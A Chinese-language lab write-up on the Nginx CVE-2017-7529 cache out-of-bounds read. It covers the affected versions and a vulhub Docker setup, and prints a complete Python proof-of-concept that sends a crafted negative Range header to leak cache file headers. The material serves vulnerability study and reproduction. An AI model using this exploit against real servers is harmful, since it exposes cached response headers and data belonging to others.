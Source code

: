 ```yaml
---
title: Nginx越界读取缓存漏洞 CVE-2017-7529
---
```


# Nginx越界读取缓存漏洞 CVE-2017-7529

## 漏洞描述
Nginx在反向代理站点的时候，通常会将一些文件进行缓存，特别是静态文件。缓存的部分存储在文件中，每个缓存文件包括“文件头”+“HTTP返回包头”+“HTTP返回包体”。如果二次请求命中了该缓存文件，则Nginx会直接将该文件中的“HTTP返回包体”返回给用户。

如果我的请求中包含Range头，Nginx将会根据我指定的start和end位置，返回指定长度的内容。而如果我构造了两个负的位置，如(-600, -9223372036854774591)，将可能读取到负位置的数据。如果这次请求又命中了缓存文件，则可能就可以读取到缓存文件中位于“HTTP返回包体”前的“文件头”、“HTTP返回包头”等内容。

## 影响版本
<a-checkbox checked>Nginx version 0.5.6 - 1.13.2</a-checkbox></br>

## 环境搭建
``` shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/nginx/CVE-2017-7529
docker-compose up -d
```
访问` http://xxx.xxx.xxx.xxx:8080` 正常即可

![image-20220307133726141](../../../.vuepress/public/img/image-20220307133726141.png)

## 漏洞复现

使用POC进行验证

```shell
python poc.py http://xxx.xxx.xxx.xxx:8080/
```

![318085cd-8491-4ca4-b19e-de8f66041c6b](../../../.vuepress/public/img/318085cd-8491-4ca4-b19e-de8f66041c6b.png)

## 漏洞POC

```python
#!/usr/bin/env python
import sys
import requests

if len(sys.argv) < 2:
    print("%s url" % (sys.argv[0]))
    print("eg: python %s http://your-ip:8080/" % (sys.argv[0]))
    sys.exit()

headers = {
    'User-Agent': "Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240"
}
offset = 605
url = sys.argv[1]
file_len = len(requests.get(url, headers=headers).content)
n = file_len + offset
headers['Range'] = "bytes=-%d,-%d" % (
    n, 0x8000000000000000 - n)

r = requests.get(url, headers=headers)
```


